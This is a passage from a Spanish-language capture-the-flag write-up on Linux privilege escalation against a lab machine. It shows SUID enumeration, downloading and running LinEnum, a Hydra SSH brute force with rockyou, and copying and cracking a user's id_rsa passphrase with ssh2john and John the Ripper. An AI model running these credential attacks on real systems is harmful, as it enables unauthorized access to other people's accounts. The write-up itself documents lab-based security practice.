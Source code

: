 No sirve porque el usuario Jan no tiene privilegios para ejecutar comando como sudo.

### Binarios SUID

Comprobamos binarios con bit SUID:
```bash
find / -perm -4000 2>/dev/null
```
<img width="536" alt="image" src="https://github.com/user-attachments/assets/b5d6048e-00e7-45d5-9f56-9ff28536c2c8" />

Sospechamos de pkexec vulnerable (pwnkit), pero la máquina parece parcheada y no nos permite explotarlo. Intentamos compilar un exploit, pero falla.

### LinEnum

<img width="557" alt="image" src="https://github.com/user-attachments/assets/66bbbbc4-d3be-4cf8-8227-987ed10c9733" /><br>


Descargamos y ejecutamos LinEnum para enumerar vulnerabilidades en la VM Víctima:
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
<img width="562" alt="image" src="https://github.com/user-attachments/assets/89001a15-a258-4ad4-9ed6-61ecc071be1d" /><br><br>
🚀 Oportunidad clara:<br>
- 👉 El usuario kay pertenece al grupo sudo, es decir, kay puede hacer sudo, y seguramente conviene cambiar a kay si consigo su contraseña:
```bash
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),...
```

Lanzamos Hydra nuevamente sobre kay:
```bash
hydra -l kay -P /usr/share/wordlists/rockyou.txt ssh://10.10.136.193
```
Sin éxito. Seguimos investigando.

### Clave SSH y John the Ripper
Dentro de /home/kay encontramos un fichero id_rsa para autenticación SSH. Lo copiamos a nuestra máquina atacante, pero está protegido con passphrase.
<img width="562" alt="image" src="https://github.com/user-attachments/assets/71077cfc-7ff7-41a1-86e3-e011052d3c25" /><br>
<img width="556" alt="image" src="https://github.com/user-attachments/assets/e55260b6-d7e6-48be-9668-7216f82c026e" /><br>

Procedemos a crackearlo:

Convertimos al formato John:
```bash
python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Lo rompemos con John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
<img width="563" alt="image" src="https://github.com/user-attachments/assets/ff5f631e-60b9-4aa9-8455-212934b474bc" />
